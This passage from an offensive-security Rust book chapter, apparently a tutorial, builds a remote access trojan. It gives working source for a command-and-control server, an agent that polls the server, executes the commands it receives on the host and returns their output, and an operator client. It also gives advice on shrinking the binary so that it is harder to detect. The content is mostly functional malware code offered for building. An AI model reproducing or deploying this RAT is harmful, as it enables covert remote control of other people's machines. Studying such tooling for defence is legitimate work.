            .bind(job.executed_at)
            .bind(&job.command)
            .bind(&job.args)
            .bind(&job.output)
            .bind(job.agent_id)
            .execute(db)
            .await
        {
            Err(err) => {
                error!("create_job: Inserting job: {}", &err);
                Err(err.into())
            }
            Ok(_) => Ok(()),
        }
    }
```


```rust
    pub async fn update_job(&self, db: &Pool<Postgres>, job: &Job) -> Result<(), Error> {
        const QUERY: &str = "UPDATE jobs
            SET executed_at = $1, output = $2
            WHERE id = $3";

        match sqlx::query(QUERY)
            .bind(job.executed_at)
            .bind(&job.output)
            .bind(job.id)
            .execute(db)
            .await
        {
            Err(err) => {
                error!("update_job: updating job: {}", &err);
                Err(err.into())
            }
            Ok(_) => Ok(()),
        }
    }
```

```rust
    pub async fn find_job_by_id(&self, db: &Pool<Postgres>, job_id: Uuid) -> Result<Job, Error> {
        const QUERY: &str = "SELECT * FROM jobs WHERE id = $1";

        match sqlx::query_as::<_, Job>(QUERY)
            .bind(job_id)
            .fetch_optional(db)
            .await
        {
            Err(err) => {
                error!("find_job_by_id: finding job: {}", &err);
                Err(err.into())
            }
            Ok(None) => Err(Error::NotFound("Job not found.".to_string())),
            Ok(Some(res)) => Ok(res),
        }
    }
```

```rust
    pub async fn find_job_for_agent(
        &self,
        db: &Pool<Postgres>,
        agent_id: Uuid,
    ) -> Result<Job, Error> {
        const QUERY: &str = "SELECT * FROM jobs
            WHERE agent_id = $1 AND output IS NULL
            LIMIT 1";

        match sqlx::query_as::<_, Job>(QUERY)
            .bind(agent_id)
            .fetch_optional(db)
            .await
        {
            Err(err) => {
                error!("find_job_where_output_is_null: finding job: {}", &err);
                Err(err.into())
            }
            Ok(None) => Err(Error::NotFound("Job not found.".to_string())),
            Ok(Some(res)) => Ok(res),
        }
    }
```

```rust
    pub async fn find_all_jobs(&self, db: &Pool<Postgres>) -> Result<Vec<Job>, Error> {
        const QUERY: &str = "SELECT * FROM jobs ORDER BY created_at";

        match sqlx::query_as::<_, Job>(QUERY).fetch_all(db).await {
            Err(err) => {
                error!("find_all_jobs: finding jobs: {}", &err);
                Err(err.into())
            }
            Ok(res) => Ok(res),
        }
    }
}
```

Note that in a larger program, we would split each function into separate files.


#### Migrations

Migrations are responsible for setting up the database schema.

They are executed when our server is starting.

**[ch_10/server/db/migrations/001_init.sql](https://github.com/skerkour/black-hat-rust/blob/main/ch_10/server/db/migrations/001_init.sql)**
```sql
CREATE TABLE agents (
  id UUID PRIMARY KEY,
  created_at TIMESTAMP WITH TIME ZONE NOT NULL,
  last_seen_at TIMESTAMP WITH TIME ZONE NOT NULL
);


CREATE TABLE jobs (
  id UUID PRIMARY KEY,
  created_at TIMESTAMP WITH TIME ZONE NOT NULL,
  executed_at TIMESTAMP WITH TIME ZONE,
  command TEXT NOT NULL,
  args JSONB NOT NULL,
  output TEXT,

  agent_id UUID NOT NULL REFERENCES agents(id) ON DELETE CASCADE
);
CREATE INDEX index_jobs_on_agent_id ON jobs (agent_id);
```

#### main

And finally, the `main.rs` file to wire up everything and start the `tokio` runtime.

**[ch_10/server/src/main.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_10/server/src/main.rs)**
```rust
#[tokio::main(flavor = "multi_thread")]
async fn main() -> Result<(), anyhow::Error> {
    std::env::set_var("RUST_LOG", "server=info");
    env_logger::init();

    let config = Config::load()?;

    let db_pool = db::connect(&config.database_url).await?;
    db::migrate(&db_pool).await?;

    let service = Service::new(db_pool);
    let app_state = Arc::new(api::AppState::new(service));

    let routes = api::routes::routes(app_state);

    log::info!("starting server on: 0.0.0.0:{}", config.port);

    let (_addr, server) =
        warp::serve(routes).bind_with_graceful_shutdown(([127, 0, 0, 1], config.port), async {
            tokio::signal::ctrl_c()
                .await
                .expect("Failed to listen for CRTL+c");
            log::info!("Shutting down server");
        });

    server.await;

    Ok(())
}
```

As we can see, it's really easy to set up graceful shutdowns with `warp`: when our server receives a `Ctrl+C` signal, it will stop receiving new connections, and the in-progress connections will not be terminated abruptly.


### The agent

How the agent works is rather simple. It registers to the server and waits for commands to arrive. When it receives a command, it executes the command and sends the result back to the server.

#### Registering

```rust
pub fn register(api_client: &ureq::Agent) -> Result<Uuid, Error> {
    let register_agent_route = format!("{}/api/agents", consts::SERVER_URL);

    let api_res: api::Response<api::AgentRegistered> = api_client
        .post(register_agent_route.as_str())
        .call()?
        .into_json()?;

    let agent_id = match (api_res.data, api_res.error) {
        (Some(data), None) => Ok(data.id),
        (None, Some(err)) => Err(Error::Api(err.message)),
        (None, None) => Err(Error::Api(
            "Received invalid api response: data and error are both null.".to_string(),
        )),
        (Some(_), Some(_)) => Err(Error::Api(
            "Received invalid api response: data and error are both non null.".to_string(),
        )),
    }?;

    Ok(agent_id)
}
```


#### Saving and loading configuration

```rust
pub fn save_agent_id(agent_id: Uuid) -> Result<(), Error> {
    let agent_id_file = get_agent_id_file_path()?;
    fs::write(agent_id_file, agent_id.as_bytes())?;

    Ok(())
}
```

```rust
pub fn get_saved_agent_id() -> Result<Option<Uuid>, Error> {
    let agent_id_file = get_agent_id_file_path()?;

    if agent_id_file.exists() {
        let agent_file_content = fs::read(agent_id_file)?;

        let agent_id = Uuid::from_slice(&agent_file_content)?;
        Ok(Some(agent_id))
    } else {
        Ok(None)
    }
}
```

```rust
pub fn get_agent_id_file_path() -> Result<PathBuf, Error> {
    let mut home_dir = match dirs::home_dir() {
        Some(home_dir) => home_dir,
        None => return Err(Error::Internal("Error getting home directory.".to_string())),
    };

    home_dir.push(consts::AGENT_ID_FILE);

    Ok(home_dir)
}
```

#### Executing commands

```rust
use crate::consts;
use common::api;
use std::{process::Command, thread::sleep, time::Duration};
use uuid::Uuid;

pub fn run(api_client: &ureq::Agent, agent_id: Uuid) -> ! {
    let sleep_for = Duration::from_secs(1);
    let get_job_route = format!("{}/api/agents/{}/job", consts::SERVER_URL, agent_id);
    let post_job_result_route = format!("{}/api/jobs/result", consts::SERVER_URL);

    loop {
        let server_res = match api_client.get(get_job_route.as_str()).call() {
            Ok(res) => res,
            Err(err) => {
                log::debug!("Error geeting job from server: {}", err);
                sleep(sleep_for);
                continue;
            }
        };

        let api_res: api::Response<api::AgentJob> = match server_res.into_json() {
            Ok(res) => res,
            Err(err) => {
                log::debug!("Error parsing JSON: {}", err);
                sleep(sleep_for);
                continue;
            }
        };
```

```rust
        log::debug!("API response successfully received");

        let job = match api_res.data {
            Some(job) => job,
            None => {
                log::debug!("No job found. Trying again in: {:?}", sleep_for);
                sleep(sleep_for);
                continue;
            }
        };

        let output = execute_command(job.command, job.args);
        let job_result = api::UpdateJobResult {
            job_id: job.id,
            output,
        };
        match api_client
            .post(post_job_result_route.as_str())
            .send_json(ureq::json!(job_result))
        {
            Ok(_) => {}
            Err(err) => {
                log::debug!("Error sending job's result back: {}", err);
            }
        };
    }
}
```

```rust
fn execute_command(command: String, args: Vec<String>) -> String {
    let mut ret = String::new();

    let output = match Command::new(command).args(&args).output() {
        Ok(output) => output,
        Err(err) => {
            log::debug!("Error executing command: {}", err);
            return ret;
        }
    };

    ret = match String::from_utf8(output.stdout) {
        Ok(stdout) => stdout,
        Err(err) => {
            log::debug!("Error converting command's output to String: {}", err);
            return ret;
        }
    };

    return ret;
}
```


### The client


#### Sending jobs

After sending a job, we need to wait for the result. For that, we loop until the C&C server replies with a non-empty job result response.

```rust
use std::{thread::sleep, time::Duration};

use crate::{api, Error};
use uuid::Uuid;

pub fn run(api_client: &api::Client, agent_id: &str, command: &str) -> Result<(), Error> {
    let agent_id = Uuid::parse_str(agent_id)?;
    let sleep_for = Duration::from_millis(500);

    let input = common::api::CreateJob {
        agent_id,
        command: command.trim().to_string(),
    };
    let job_id = api_client.create_job(input)?;

    loop {
        let job_output = api_client.get_job_result(job_id)?;
        if let Some(job_output) = job_output {
            println!("{}", job_output);
            break;
        }
        sleep(sleep_for);
    }

    Ok(())
}
```


#### Listing jobs

```rust
use crate::{api, Error};
use prettytable::{Cell, Row, Table};

pub fn run(api_client: &api::Client) -> Result<(), Error> {
    let jobs = api_client.list_jobs()?;

    let mut table = Table::new();

    table.add_row(Row::new(vec![
        Cell::new("Job ID"),
        Cell::new("Created At"),
        Cell::new("Executed At"),
        Cell::new("command"),
        Cell::new("Args"),
        Cell::new("Output"),
        Cell::new("Agent ID"),
    ]));

    for job in jobs {
        table.add_row(Row::new(vec![
            Cell::new(job.id.to_string().as_str()),
            Cell::new(job.created_at.to_string().as_str()),
            Cell::new(
                job.executed_at
                    .map(|t| t.to_string())
                    .unwrap_or(String::new())
                    .as_str(),
            ),
            Cell::new(job.command.as_str()),
            Cell::new(job.args.join(" ").as_str()),
            Cell::new(job.output.unwrap_or("".to_string()).as_str()),
            Cell::new(job.agent_id.to_string().as_str()),
        ]));
    }

    table.printstd();

    Ok(())
}
```


## Optimizing Rust's binary size

<!--
https://github.com/johnthagen/min-sized-rust
https://arusahni.net/blog/2020/03/optimizing-rust-binary-size.html
-->


By default, Rust produces fairly large binaries, which may be annoying when building a RAT. A larger executable means more resources used on the system, longer and less reliable downloads, and easier to be detected.

We will see a few tips to reduce the size of a Rust executable.

Note that each of the following points may come with drawbacks, so you are free to mix them according to your own needs.

### Optimization Level

In `Cargo.toml`

```toml
[profile.release]
opt-level = 'z' # Optimize for size
```

### Link Time Optimization (LTO)

In `Cargo.toml`

```toml
[profile.release]
lto = true
```


### Parallel Code Generation Units

In `Cargo.toml`

```toml
[profile.release]
codegen-units = 1
```


Note that those techniques may slow down the compilation, especially Parallel Code Generation Units. In return, the compiler will be able to better optimize your binary.


### Choosing the right crates

Finally, choosing small crates can have the biggest impact on the size of the final executable. You can use [cargo-bloat](https://github.com/RazrFalcon/cargo-bloat) to find which crates are bloating your project and thus find alternatives, as we did for the agent's HTTP client library.


## Dockerizing the server

In order to package our server, we use a two-stages Docker image.

**[Dockerfile](https://github.com/skerkour/black-hat-rust/blob/main/ch_10/Dockerfile)**
```dockerfile
####################################################################################################
## Builder
####################################################################################################
FROM rust:latest AS builder

WORKDIR /ch_10

COPY ./ .

RUN cargo build -p server --release

####################################################################################################
## Final image
####################################################################################################
FROM debian:buster-slim

# Create unprivileged user
ENV USER=ch_10
ENV UID=10001

RUN adduser \
    --disabled-password \
    --gecos "" \
    --home "/nonexistent" \
    --shell "/sbin/nologin" \
    --no-create-home \
    --uid "${UID}" \
    "${USER}"


WORKDIR /ch_10

# Copy our build
COPY --from=builder /ch_10/target/release/server ./

# Use an unprivileged user
USER ch_10:ch_10

CMD ["/ch_10/server"]
```

The first stage is used to build the server, and then we use the `debian:buster-slim` Docker image as a base to create a small final image that only contains what is necessary to run the server with an unpribiliged user, to reduce the attack surface.

You can find on [my blog](https://kerkour.com/rust-small-docker-image) a long explaination to create very small Docker images.


## Some limitations

Even if we are going to improve our RAT in the next chapters, there are a few things that are left as an exercise for the reader.

### Authentication

We didn't include any authentication system!

Anyone can send jobs to the server, effectively impersonating the legitimate operators and taking control of all the agents.

Fortunately, it's a solved problem, and you won't have any difficulty finding resources on the internet about how to implement authentication (JWTs, tokens...).


### No transport encryption


Here we used plain HTTP. HTTPS is the bare minimum for any real-world operations.


## Summary

* Due to its polyvalence, Rust is the best language to implement a RAT. Period.
* Use HTTP(S) instead of a custom protocol, or you will regret it.
* Long-polling is the best tradeoff between simplicity and real-time.
* Use Docker.
* You will need to roll your sleeves to keep the size of the binary small.


## [Next Chapter: Securing communications with end-to-end encryption](/black-hat-rust/11)
